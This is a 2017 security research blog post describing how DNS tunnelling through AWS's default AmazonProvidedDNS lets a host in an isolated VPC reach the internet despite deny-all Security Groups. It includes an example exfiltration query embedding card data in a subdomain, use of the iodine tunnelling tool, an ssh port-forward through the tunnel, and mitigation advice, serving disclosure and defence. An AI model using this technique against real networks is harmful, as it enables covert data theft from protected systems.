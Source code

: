 ```yaml
---
layout: post
title: "How To Bypass AWS Security Group Rules and Reach the Internet"
date: 2017-11-09 17:05:00
image: '/assets/img/aws_dns/'
description: Traffic destined to the AmazonProvidedDNS is traffic bound for AWS management infrastructure and does not egress via the same network links as standard customer traffic and is not evaluated by Security Groups.
tags: aws DNS
categories: Research
twitter_text: Bypassing AWS Security Group Rules and Reaching the Internet
---
```


TL;DR
=====

Customers can utilize AWS' DNS infrastructure in VPCs (enabled by
default). Traffic destined to the AmazonProvidedDNS is traffic bound for
AWS management infrastructure and does not egress via the same network
links as standard customer traffic and is not evaluated by Security
Groups. Using DNS exfiltration, it is possible to exfiltrate data out of
an isolated network.

-------------

DNS exfiltration allows an attacker to bypass outbound firewall rules,
and exfiltrate data or perform command and control activity with an
external service, by only using the DNS protocol. In this case, DNS
Exfiltration can even be used to exfiltrate data out of an isolated VPC
if AWS' managed DNS infrastructure is not disabled.

DNS Exfiltration can occur when an internal DNS server is configured to
forward external requests to upstream DNS servers. AWS allows the use of
their preconfigured DNS infrastructure (named AmazonProvidedDNS) by
default in all VPCs. An attacker can utilize this channel to send and
receive data with servers outside of the allowed environment. AWS
Customers can mitigate this risk by using their own DNS server and
turning off the preconfigured use of Amazon's DNS infrastructure.

How DNS Works
=============

To understand how DNS Exfiltration work, it is necessary to understand
how DNS works. If you already know this, [click here to skip to the next
section.](#How_DNS_Exfiltration_Works)

In many organizations, a network will have port 53(DNS) outbound blocked
on the firewall and instead, would have an internal DNS server to
resolve external domains. That Internal DNS server would usually have
port 53 outbound open to a higher level DNS server for queries that the
internal one cannot resolve. Let's look at how a DNS server would find
the Domain "yo.dejandayoff.com" for the first time.

![DNS Arch](/assets/img/aws_dns/1_dns.png)

1. The computer first makes a request to the internal DNS server to find yo.dejandayoff.com.
2. The DNS Server must first resolve the location of the Top Level Domain ".com." To do this, the DNS server asks the Root server for the .COM DNS Server.
3. Since the domain we are looking up is yo.dejandayoff.com, the DNSserver needs to find the location of dejandayoff.com's name server
4. Once the nameserver is found, the DNS server makes a request askingfor the A record of yo.dejandayoff.com
5. The nameserver responds with the IP
6. The DNS Server responds to the client with the IP

Note: There might be other DNS servers involved (like your ISPs DNS
server and its upstream DNS server)

How DNS Exfiltration Works<a name="How_DNS_Exfiltration_Works"></a>
==========================

If an attacker can control the nameserver for a domain, it is possible
for them to log requests and craft response for any subdomain lookups.
While the nameserver must accept standard DNS protocol requests, what it
does with that data does not have to be standard.

To demonstrate this, let's say an internal disgruntled employee would
like to exfiltrate thousands of credit card numbers out of a production
network that has no access to the external internet. One option would be
to use DNS exfiltration where the SSNs are prepended to the domain
lookup. For example:

4012888888881881.123.0808.visa.yo.dejandayoff.com

When the nameserver for yo.dejandayoff.com receives this request, it can
simply log the request and respond with a random IP. The attacker can
even include multiple cards per request or compress and send encoded
data to minimize the amount of request that have to be sent. Regardless
of the method, by having an internal DNS server that resolves external
domains, an attacker has two-way-communication.

The options here are endless, an attacker can create a local http proxy
that communicates solely through DNS or even a local network interface
that can tunnel all types of traffic through DNS. In fact, there is a
tool that was built for this exact reason! <http://code.kryo.se/iodine/>

How can attackers use this in AWS?
==================================

DNS exfiltration is not a new concept and the solution is not a simple
one. In a non-AWS environment one option would be to block all outbound
DNS connections (if you don't care about usability). Another option
would be to whitelist domains that are allowed to be resolved. The
simplest mitigating control would be to monitor DNS logs for
abnormalities (frequency of requests to domain, size of request, etc.)

AWS allows the use of the AmazonProvidedDNS by allocating an IP in each
subnet (VPC IPv4 network range, plus two) to simplify building out an
architecture
(<http://docs.aws.amazon.com/AmazonVPC/latest/UserGuide/VPC_Subnets.html#VPC_Sizing>).
Administrators are only allowed to enable and disable the DNS
infrastructure in each subnet. Per VPC flow log documentation this
management traffic is not logged to the bucket where customers store
logs so they do not fill a customer's bucket. Requests made to
AmazonProvidedDNS are management traffic and do not egress via the same
network links as standard customer traffic and are not evaluated by
Security Groups. Here is an image of the default DNS configuration when
a VPC is created and its settings:

![Allow DNS by default](/assets/img/aws_dns/2_VPCDefaultConfig_allowDNS.png)

Typically in AWS to make an outbound connection, two pieces are
necessary:

1. A route to an internet gateway or a NAT device
2. A security group that allows outbound communications on that port

However, using the methods outlined above, an attacker can bypass these
restriction by using the AmazonProvidedDNS. To demonstrate this
vulnerability, I have created a network in where there is a public
subnet and private subnet. The public subnet's sole purpose is to be
able to ssh into the private subnet (bastion host). The Public subnet
does have an internet gateway (to facilitate the ssh into the bastion
host). The private subnet does not contain an internet gateway or NAT
(only the DNS IP that Amazon opens in ALL subnets by default). The
security group configuration on the host in the private subnet allows
for SSH in from the bastion host only and contains absolutely no
outbound rules. This network layout can be found below:

![Network Diagram](/assets/img/aws_dns/3_network_in_aws.png)

And the configurations can be found below:

### Public subnet route table:

![Public subnet route table](/assets/img/aws_dns/4_public_subnet_routetable.png)

### Private subnet route table:

![Private subnet route table](/assets/img/aws_dns/5_private_subnet_routetable.png)

### Private host inbound security groups:

![Private host inbound security groups](/assets/img/aws_dns/6_OnlyAllowBationHostInbound.png)

### Private host outbound security groups:

![Private host outbound security groups](/assets/img/aws_dns/7_DenyAllOutbound.png)

To prove that I was not able to connect to the outside internet, here is
the private server receiving network timeouts to dejandayoff.com.

![Network Timeout](/assets/img/aws_dns/8_NetworkTimeout.png)

Once the environment was set up I created another server in a separate
VPC that would run the iodined service. Next, the private server used
its iodine client to connect to the server:

![Iodine Connect](/assets/img/aws_dns/9_iodineConnect.png)

With iodine connected, I was able to create an ssh tunnel (through the
iodine DNS tunnel) to google.com on port 8080 using the following
command:

```bash
ssh -L 8080:google.com:443 10.53.53.2
```

(10.53.53.0/24 is the subnet of the iodine tunnel, 10.53.53.2 is the
iodine server that I can ssh to)

Doing a curl on https://127.0.0.1:8080 allows us to hit google's
server!!

![Accessing Google](/assets/img/aws_dns/10_access_google.png)
==================================================================

While in the image google responds with a redirect, the purpose of the
demonstration was to show that a server with no outbound rules and no
internet gateway was able to reach external sites. From here, an
attacker could freely transfer data from an "airgapped" system with no
detection.

Mitigation
==========

Fortunately, Amazon allows the user to disable the AmazonProvidedDNS in
the VPC settings. Once disabled, the user will have to create their own
DNS server in the network using whatever software they would like. From
here, the custom DNS server would be able log relevant data and
whitelist only necessary websites.
